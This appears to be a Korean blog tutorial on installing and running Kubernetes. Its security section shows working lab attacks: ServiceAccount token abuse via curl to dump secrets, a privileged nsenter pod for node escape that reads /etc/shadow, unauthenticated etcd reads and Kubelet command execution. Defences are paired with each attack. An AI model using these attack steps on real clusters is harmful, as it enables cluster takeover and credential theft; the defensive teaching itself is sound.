


---
layout: post
title: "Kubernetes"
date: 2025-12-05 17:00:00 +0900
categories: [container]
---

## 1. 개요

**Kubernetes (K8s)**는 컨테이너화된 애플리케이션의 배포, 확장, 관리를 자동화하는 오픈소스 시스템이다.
구글이 15년 이상 운영한 Borg 시스템의 노하우를 바탕으로 설계되었으며, CNCF(Cloud Native Computing Foundation)의 대표적인 프로젝트이다. 단순한 컨테이너 런타임이 아닌, 대규모 클러스터 환경에서의 운영 자동화(Orchestration)에 초점을 맞춘다.

### 왜 K8s를 사용하는가?
*   **자동 복구 (Self-healing)**: 컨테이너가 죽거나 노드가 장애를 일으키면 자동으로 재시작하거나 다른 노드로 교체한다.
*   **로드 밸런싱 (Load Balancing)**: 트래픽이 많을 경우 네트워크 트래픽을 분산하여 배포가 안정적으로 이루어지도록 한다.
*   **자동화된 롤아웃과 롤백**: 애플리케이션의 변경 사항을 점진적으로 배포하고, 문제 발생 시 즉시 이전 버전으로 되돌린다.
*   **오토스케일링 (Auto-scaling)**: CPU/메모리 사용량에 따라 Pod의 개수를 자동으로 늘리거나 줄인다.

### 아키텍처
마스터 노드(Control Plane)가 전체 클러스터를 제어하고, 워커 노드(Worker Node)가 실제 애플리케이션(Pod)을 실행하는 구조이다.



---

## 2. 클러스터 설치

실제 프로덕션 환경과 유사하게 `kubeadm`을 사용하여 Rocky Linux 환경에서 클러스터를 구축하는 과정이다.

### 사전 준비 (Master/Node 공통)
Kubernetes는 스왑(Swap) 메모리를 사용하지 않으므로 비활성화해야 하며, 네트워크 브리지 설정을 활성화해야 한다.

```bash
# 1. 스왑 비활성화 (필수)
swapoff -a
sed -i '/swap/d' /etc/fstab

# 2. 커널 모듈 로드
modprobe overlay
modprobe br_netfilter

# 3. 네트워크 설정
cat <<EOF | tee /etc/sysctl.d/k8s.conf
net.bridge.bridge-nf-call-iptables  = 1
net.bridge.bridge-nf-call-ip6tables = 1
net.ipv4.ip_forward                 = 1
EOF
sysctl --system
```

### 컨테이너 런타임 (Containerd) 설치
Docker 대신 Kubernetes 표준 런타임인 containerd를 설치 및 설정한다.

```bash
dnf install -y containerd.io
containerd config default | tee /etc/containerd/config.toml
# SystemdCgroup 활성화 (중요)
sed -i 's/SystemdCgroup = false/SystemdCgroup = true/' /etc/containerd/config.toml
systemctl enable --now containerd
```

### Kubeadm 설치 및 초기화
```bash
# 레포지토리 추가 및 패키지 설치
dnf install -y kubelet kubeadm kubectl --disableexcludes=kubernetes
systemctl enable --now kubelet

# Master 노드 초기화 (Master에서만 실행)
kubeadm init --pod-network-cidr=192.168.0.0/16 --apiserver-advertise-address=10.0.0.11

# kubectl 설정 복사
mkdir -p $HOME/.kube
cp -i /etc/kubernetes/admin.conf $HOME/.kube/config
chown $(id -u):$(id -g) $HOME/.kube/config

# CNI (Calico) 네트워크 플러그인 설치
kubectl apply -f https://docs.projectcalico.org/manifests/calico.yaml
```

### Worker Node 조인
Master 초기화 시 출력된 토큰 명령어를 Worker 노드에서 실행한다.
```bash
kubeadm join 10.0.0.11:6443 --token <token> --discovery-token-ca-cert-hash sha256:<hash>
```

---

## 3. 핵심 사용법 및 오브젝트

### 기본 명령어 (kubectl)
```bash
kubectl get nodes              # 노드 상태 확인
kubectl get pods -A            # 모든 네임스페이스의 Pod 확인
kubectl get services           # 서비스 목록
kubectl get deployments        # 디플로이먼트 목록
kubectl describe pod <name>    # Pod 상세 정보 및 이벤트(트러블슈팅 시 필수)
kubectl logs <name>            # Pod 로그 확인
kubectl exec -it <name> -- /bin/bash  # 컨테이너 내부 접속
```

### 1. Deployment (상태 관리 배포)
Pod의 복제본(Replicas)을 유지하고 배포 이력을 관리한다.

```yaml
# nginx-deployment.yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: nginx-deploy
spec:
  replicas: 3               # Pod 3개 유지
  selector:
    matchLabels:
      app: nginx
  template:                 # Pod 템플릿
    metadata:
      labels:
        app: nginx
    spec:
      containers:
      - name: nginx
        image: nginx:latest
        ports:
        - containerPort: 80
```
```bash
kubectl apply -f nginx-deployment.yaml
```

### 2. Service (네트워크 노출)
동적으로 변하는 Pod IP 대신 고정된 진입점(VIP)을 제공한다.

```yaml
# nginx-service.yaml
apiVersion: v1
kind: Service
metadata:
  name: nginx-service
spec:
  selector:
    app: nginx
  ports:
  - port: 80         # 서비스 포트
    targetPort: 80   # 컨테이너 포트
  type: LoadBalancer # 외부 로드밸런서 사용
```

### 3. Ingress (HTTP 라우팅)
외부 HTTP/HTTPS 트래픽을 도메인 기반으로 내부 서비스에 라우팅한다.

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: example-ingress
spec:
  rules:
  - host: example.com
    http:
      paths:
      - path: /
        pathType: Prefix
        backend:
          service:
            name: nginx-service
            port:
              number: 80
```

---

## 4. Namespace 관리

하나의 물리 클러스터를 논리적으로 나누어 여러 팀이나 환경(Dev, Prod)이 공유할 수 있게 한다.

```bash
# 네임스페이스 생성
kubectl create namespace dev-team

# 특정 네임스페이스에 Pod 실행
kubectl run nginx --image=nginx -n dev-team

# 네임스페이스 내 리소스 조회
kubectl get pods -n dev-team

# 모든 네임스페이스 리소스 조회
kubectl get pods --all-namespaces
```

---

## 5. 실습: 운영 및 트러블슈팅

### 스케일링 (Scaling)
트래픽 증가에 대응하여 Pod 개수를 즉시 늘린다.
```bash
kubectl scale deployment nginx-deploy --replicas=5
kubectl get pods
# 5개의 Pod가 생성되는 것을 확인
```

### 롤링 업데이트 (Rolling Update)
서비스 중단 없이 이미지를 업데이트한다.
```bash
kubectl set image deployment/nginx-deploy nginx=nginx:1.21
# 업데이트 진행 상황 실시간 확인
kubectl rollout status deployment/nginx-deploy
```

### 롤백 (Undo)
문제가 발생했을 때 즉시 이전 버전으로 복구한다.
```bash
kubectl rollout undo deployment/nginx-deploy
```

### 리소스 상태 확인 명령
```bash
kubectl top nodes    # 노드별 CPU/Memory 사용량 (Metrics Server 필요)
kubectl top pods     # Pod별 리소스 사용량
kubectl get events   # 클러스터 내 주요 이벤트 로그 확인
```

---

## 6. ConfigMap 및 Secret 활용

설정 정보와 민감한 데이터를 코드에서 분리하여 관리한다.

### ConfigMap (일반 설정)
```yaml
# config.yaml
apiVersion: v1
kind: ConfigMap
metadata:
  name: app-config
data:
  APP_MODE: "production"
  LOG_LEVEL: "info"
  DATABASE_HOST: "mysql-service"
```

```bash
# 생성
kubectl apply -f config.yaml

# 또는 명령어로 직접 생성
kubectl create configmap app-config --from-literal=APP_MODE=production

# 파일에서 생성
kubectl create configmap nginx-conf --from-file=nginx.conf
```

### Secret (민감한 정보)
```bash
# 명령어로 생성 (base64 자동 인코딩)
kubectl create secret generic db-secret \
  --from-literal=username=admin \
  --from-literal=password=mysecretpass

# Secret 확인 (base64 인코딩된 상태)
kubectl get secret db-secret -o yaml

# 디코딩
kubectl get secret db-secret -o jsonpath='{.data.password}' | base64 -d
```

### Pod에서 사용
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: app
spec:
  containers:
  - name: app
    image: myapp:latest
    envFrom:
      - configMapRef:
          name: app-config       # ConfigMap 전체를 환경변수로
      - secretRef:
          name: db-secret        # Secret 전체를 환경변수로
    volumeMounts:
      - name: config-volume
        mountPath: /etc/config   # ConfigMap을 파일로 마운트
  volumes:
    - name: config-volume
      configMap:
        name: app-config
```

---

## 7. PersistentVolume (스토리지)

Pod가 삭제되어도 데이터를 유지하기 위한 영구 볼륨을 설정한다.

### PV/PVC 개념

| 구성 요소 | 역할 |
|----------|------|
| **PersistentVolume (PV)** | 클러스터의 실제 스토리지 (관리자가 프로비저닝) |
| **PersistentVolumeClaim (PVC)** | 사용자가 스토리지를 요청하는 방법 |
| **StorageClass** | 동적 프로비저닝 템플릿 |



### PV 및 PVC 생성

**PersistentVolume (관리자)**
```yaml
apiVersion: v1
kind: PersistentVolume
metadata:
  name: pv-local
spec:
  capacity:
    storage: 10Gi
  accessModes:
    - ReadWriteOnce          # 단일 노드에서 읽기/쓰기
  hostPath:
    path: /data/pv-local     # 로컬 경로 (테스트용)
  persistentVolumeReclaimPolicy: Retain
```

**PersistentVolumeClaim (개발자)**
```yaml
apiVersion: v1
kind: PersistentVolumeClaim
metadata:
  name: pvc-app
spec:
  accessModes:
    - ReadWriteOnce
  resources:
    requests:
      storage: 5Gi
```

**Pod에서 사용**
```yaml
spec:
  containers:
  - name: app
    volumeMounts:
      - mountPath: /data
        name: app-storage
  volumes:
    - name: app-storage
      persistentVolumeClaim:
        claimName: pvc-app
```

### 상태 확인
```bash
kubectl get pv
kubectl get pvc
kubectl describe pvc pvc-app
```

---

## 8. HPA (자동 스케일링)

CPU/메모리 사용량에 따라 Pod 개수를 자동으로 조절한다.

### Metrics Server 설치 (필수)
```bash
kubectl apply -f https://github.com/kubernetes-sigs/metrics-server/releases/latest/download/components.yaml

# 확인
kubectl top nodes
kubectl top pods
```

### HPA 생성
```bash
# 명령어로 생성 (CPU 50% 초과 시 최대 10개까지 확장)
kubectl autoscale deployment nginx-deploy \
  --cpu-percent=50 \
  --min=2 \
  --max=10
```

**YAML 정의**
```yaml
apiVersion: autoscaling/v2
kind: HorizontalPodAutoscaler
metadata:
  name: nginx-hpa
spec:
  scaleTargetRef:
    apiVersion: apps/v1
    kind: Deployment
    name: nginx-deploy
  minReplicas: 2
  maxReplicas: 10
  metrics:
  - type: Resource
    resource:
      name: cpu
      target:
        type: Utilization
        averageUtilization: 50
  - type: Resource
    resource:
      name: memory
      target:
        type: Utilization
        averageUtilization: 80
```

### 상태 확인 및 테스트
```bash
# HPA 상태 확인
kubectl get hpa

# 부하 테스트 (다른 터미널에서)
kubectl run load-test --image=busybox --restart=Never \
  -- /bin/sh -c "while true; do wget -q -O- http://nginx-service; done"

# Pod 개수 변화 모니터링
kubectl get pods -w
```

---

## 9. Helm 기초

Kubernetes 패키지 매니저로, 복잡한 애플리케이션을 쉽게 배포하고 관리한다.

### 설치
```bash
# Linux/macOS
curl https://raw.githubusercontent.com/helm/helm/main/scripts/get-helm-3 | bash

# Windows (Chocolatey)
choco install kubernetes-helm

# 버전 확인
helm version
```

### Helm Chart 사용
```bash
# 공식 저장소 추가
helm repo add bitnami https://charts.bitnami.com/bitnami
helm repo update

# Chart 검색
helm search repo nginx

# Chart 정보 확인
helm show values bitnami/nginx

# 설치
helm install my-nginx bitnami/nginx

# 설치된 릴리스 확인
helm list

# 삭제
helm uninstall my-nginx
```

### 값 오버라이드
```bash
# 설치 시 값 지정
helm install my-nginx bitnami/nginx --set replicaCount=3

# 또는 파일로
helm install my-nginx bitnami/nginx -f values.yaml
```

**values.yaml 예시**
```yaml
replicaCount: 3
service:
  type: LoadBalancer
  port: 80
resources:
  limits:
    cpu: 200m
    memory: 256Mi
```

---

## 10. 보안 고려사항

Kubernetes는 잘못 설정된 경우 공격자에게 전체 클러스터를 장악할 수 있는 강력한 권한을 제공할 수 있다.

### 10.1. 공격 시연 (Lab 환경)

#### 공격 1: ServiceAccount 토큰 탈취 → API 서버 접근

Pod 내부에 자동 마운트된 ServiceAccount 토큰을 이용하여 Kubernetes API에 인증하고 클러스터 정보를 수집하는 시나리오이다.

**[취약한 환경]**
*   Pod에 `automountServiceAccountToken: true` (기본값)
*   ServiceAccount에 과도한 RBAC 권한 부여

**[공격 과정]**
```bash
# 1. Pod 내부에서 토큰 확인
cat /var/run/secrets/kubernetes.io/serviceaccount/token

# 2. 환경 변수에서 API 서버 주소 확인
echo $KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT

# 3. 토큰으로 API 호출 (kubectl 없이 curl 사용)
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -k -H "Authorization: Bearer $TOKEN" \
  https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api/v1/namespaces/default/secrets

# 4. 권한이 있다면 모든 Secret(비밀번호, API키) 탈취 가능
```

**[공격 결과]**: Pod 침투 → ServiceAccount 권한으로 클러스터 API 접근 🔓

---

#### 공격 2: Privileged Pod 생성 → 노드 탈출

클러스터에 Pod 생성 권한이 있는 계정을 탈취한 후, Privileged Pod를 배포하여 워커 노드를 장악하는 시나리오이다.

**[취약한 환경]**
*   Pod Security Standards 미적용 (Privileged Pod 생성 허용)
*   공격자가 `pods/create` 권한을 가진 계정 탈취

**[공격 과정]**
```yaml
# malicious-pod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: attacker-pod
spec:
  hostPID: true      # 호스트 PID 네임스페이스 공유
  hostNetwork: true  # 호스트 네트워크 공유
  containers:
  - name: pwn
    image: alpine
    command: ["nsenter", "--target", "1", "--mount", "--uts", "--ipc", "--net", "--pid", "--", "/bin/bash"]
    securityContext:
      privileged: true  # 모든 권한 부여
```

```bash
# 1. 악성 Pod 배포
kubectl apply -f malicious-pod.yaml

# 2. Pod에 접속하면 이미 호스트 루트 상태
kubectl exec -it attacker-pod -- /bin/bash
whoami  # root (호스트)
cat /etc/shadow
```

**[공격 결과]**: Pod 생성 권한 → 노드 루트 획득 → 클러스터 전체 위협 🔓

---

#### 공격 3: etcd 직접 접근 → Secret 평문 탈취

잘못 설정된 etcd가 인증 없이 노출되거나, etcd 백업 파일을 탈취하여 Secret을 평문으로 추출하는 시나리오이다.

**[취약한 환경]**
*   etcd가 `--client-cert-auth=false`로 실행
*   etcd 데이터 암호화(EncryptionConfiguration) 미적용

**[공격 과정]**
```bash
# 1. etcd 클라이언트로 접근 (인증 없이)
etcdctl --endpoints=https://<etcd-ip>:2379 get /registry/secrets/default/my-secret

# 2. 또는 etcd 백업 파일에서 추출
strings snapshot.db | grep -A5 "password"

# 3. Base64 디코딩
echo "cGFzc3dvcmQxMjM=" | base64 -d
# password123
```

**[공격 결과]**: etcd 접근 → 모든 Secret(DB 비밀번호, TLS 키 등) 노출 🔓

---

#### 공격 4: Kubelet API 미인증 접근

Kubelet API가 익명 인증을 허용하는 경우, 해당 노드의 모든 Pod에 명령을 실행할 수 있다.

**[취약한 환경]**
*   Kubelet 설정: `--anonymous-auth=true`
*   Kubelet 포트(10250) 외부 노출

**[공격 과정]**
```bash
# 1. Kubelet API로 Pod 목록 조회
curl -k https://<node-ip>:10250/pods

# 2. 특정 Pod에 명령 실행
curl -k -X POST "https://<node-ip>:10250/run/<namespace>/<pod-name>/<container-name>" \
  -d "cmd=cat /etc/shadow"
```

**[공격 결과]**: 노드 Kubelet 접근 → 해당 노드의 모든 Pod 제어 🔓

---

### 10.2. 방어 대책

위 공격들을 방어하기 위한 보안 설정이다. **각 공격에 대응하는 방어책을 매핑**한다.

| 공격 | 방어 |
|:---|:---|
| ServiceAccount 토큰 탈취 | 방어 1, 2 |
| Privileged Pod 생성 | 방어 3 |
| etcd 평문 탈취 | 방어 4 |
| Kubelet 미인증 접근 | 방어 5 |

---

#### 방어 1: ServiceAccount 토큰 자동 마운트 비활성화

불필요한 Pod에는 ServiceAccount 토큰을 마운트하지 않는다.

```yaml
# Pod 또는 ServiceAccount에 설정
spec:
  automountServiceAccountToken: false
```

---

#### 방어 2: RBAC 최소 권한 원칙

`cluster-admin`은 극히 제한된 사용자에게만 부여하고, 네임스페이스별로 필요한 최소 권한만 부여한다.

```yaml
# 특정 네임스페이스에서만 Pod 읽기 권한
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: dev-team
  name: pod-reader
rules:
- apiGroups: [""]
  resources: ["pods"]
  verbs: ["get", "list"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: read-pods
  namespace: dev-team
subjects:
- kind: User
  name: developer
roleRef:
  kind: Role
  name: pod-reader
  apiGroup: rbac.authorization.k8s.io
```

---

#### 방어 3: Pod Security Standards (PSS) 적용

Namespace에 `Restricted` 정책을 적용하여 Privileged Pod 생성을 원천 차단한다.

```bash
# Namespace에 Restricted 정책 강제
kubectl label namespace production pod-security.kubernetes.io/enforce=restricted
kubectl label namespace production pod-security.kubernetes.io/warn=restricted
```

```yaml
# 안전한 Pod 예시 (Restricted 정책 통과)
spec:
  securityContext:
    runAsNonRoot: true
    seccompProfile:
      type: RuntimeDefault
  containers:
  - name: app
    securityContext:
      allowPrivilegeEscalation: false
      capabilities:
        drop: ["ALL"]
```

---

#### 방어 4: etcd 암호화 (EncryptionConfiguration)

Secret 데이터를 etcd에 암호화하여 저장한다.

```yaml
# /etc/kubernetes/encryption-config.yaml
apiVersion: apiserver.config.k8s.io/v1
kind: EncryptionConfiguration
resources:
  - resources: ["secrets"]
    providers:
      - aescbc:
          keys:
            - name: key1
              secret: <BASE64_ENCODED_32_BYTE_KEY>
      - identity: {}  # 기존 평문 데이터 읽기용
```

```bash
# API 서버 설정에 추가
kube-apiserver --encryption-provider-config=/etc/kubernetes/encryption-config.yaml
```

---

#### 방어 5: Kubelet 인증 강화

익명 인증을 비활성화하고, 클라이언트 인증서 기반 인증을 강제한다.

```yaml
# /var/lib/kubelet/config.yaml
authentication:
  anonymous:
    enabled: false  # 익명 접근 차단
  webhook:
    enabled: true
authorization:
  mode: Webhook    # API 서버를 통한 인가
```

---

#### 방어 6: NetworkPolicy로 Pod 간 통신 제한

기본적으로 모든 Ingress를 차단하고, 필요한 경로만 화이트리스트로 허용한다.

```yaml
# 모든 Ingress 기본 차단
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: default-deny-all
  namespace: production
spec:
  podSelector: {}
  policyTypes:
  - Ingress
  - Egress
```

---

#### 방어 7: Admission Controller (OPA/Gatekeeper)

정책 기반 Admission Controller를 배포하여 위험한 Pod 설정을 사전에 거부한다.

```bash
# Gatekeeper 설치
kubectl apply -f https://raw.githubusercontent.com/open-policy-agent/gatekeeper/master/deploy/gatekeeper.yaml

# ConstraintTemplate으로 정책 정의 (예: privileged=true 차단)
```

> **Tip**: 클라우드 환경에서는 **AWS EKS Pod Identity**, **GKE Workload Identity**, **Azure Workload Identity**를 사용하여 ServiceAccount 토큰 대신 클라우드 IAM을 활용하면 더 안전하다.

<hr class="short-rule">
